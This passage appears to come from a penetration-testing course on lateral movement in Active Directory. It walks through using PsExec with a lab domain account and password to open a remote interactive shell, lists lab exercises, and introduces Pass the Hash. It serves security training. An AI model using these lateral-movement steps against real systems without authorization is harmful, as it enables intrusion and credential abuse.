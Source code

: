 To start an interactive session on the remote host, we need to invoke **PsExec64.exe** with the **\-i** argument, followed by the target hostname prepended with two backslashes. We'll then specify the domain\\username as **corp\\jen** for the **\-u** argument and **Nexus123!** as the password for the **\-p** arguments. Finally, we will include the process we want to execute remotely. Here we will use the command shell.

```
PS C:\Tools\SysinternalsSuite> .\PsExec64.exe -i  \\FILES04 -u corp\jen -p Nexus123! cmd

PsExec v2.4 - Execute processes remotely
Copyright (C) 2001-2022 Mark Russinovich
Sysinternals - www.sysinternals.com

Microsoft Windows [Version 10.0.20348.169]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>hostname
FILES04

C:\Windows\system32>whoami
corp\jen
```

> Listing 15 - Obtaining an Interactive Shell on the Target System with PsExec

Listing 15 confirms that we obtained an interactive shell directly on the target system as the local administrator *jen* domain account, without involving our Kali machine to catch a reverse shell.

## Resources

Some of the labs require you to start the target machine(s) below.

Please note that the IP addresses assigned to your target machines may not match those referenced in the Module text and video.

Lateral Movement in Active Directory - PsExec - VM Group 1

Lateral Movement in Active Directory - PsExec - VM Group 2

#### Labs

1. Start VM Group 1 and repeat the steps discussed in this section. Which share needs to be available in order for PsExec to connect remotely?

Answer

2. Start VM Group 2 and connect as the offsec user on client74. Then try to use PsExec to move laterally to web04 in order to get the flag located on jen's desktop.

Answer

## 24.1.3. Pass the Hash

The *Pass the Hash* (PtH) technique allows an attacker to authenticate to a remote system or service using a user's NTLM hash instead of the user's plaintext password. Note that this will only work for servers or services using NTLM authentication, not for servers or services using Kerberos authentication. This lateral movement sub-technique is also mapped in the MITRE Framework under the [*Use Alternate Authentication Material*](https://attack.mitre.org/techniques/T1550/) general technique.


[192.168.50.73]: PS C:\Users\jen\Documents> whoami
[192.168.50.73]: PS C:\Users\jen\Documents> hostname